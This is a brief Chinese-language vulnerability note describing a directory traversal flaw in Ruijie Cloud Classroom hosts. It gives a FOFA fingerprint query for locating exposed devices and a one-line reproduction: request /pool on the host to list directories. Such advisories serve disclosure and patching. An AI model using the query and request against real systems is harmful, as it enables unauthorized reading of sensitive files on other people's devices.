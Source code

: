 # 锐捷云课堂主机 目录遍历漏洞

## 漏洞描述

锐捷云课堂主机存在目录遍历漏洞，通过访问get请求/pool/，即可读取目录.导致敏感信息泄露.

## 漏洞影响

> [!NOTE]
>
> 锐捷云课堂

## FOFA

> [!NOTE]
>
> title="Ruijie" && "云课堂主机"

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/pool 造成目录遍历

![](http://wikioss.peiqi.tech/vuln/ruijie-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

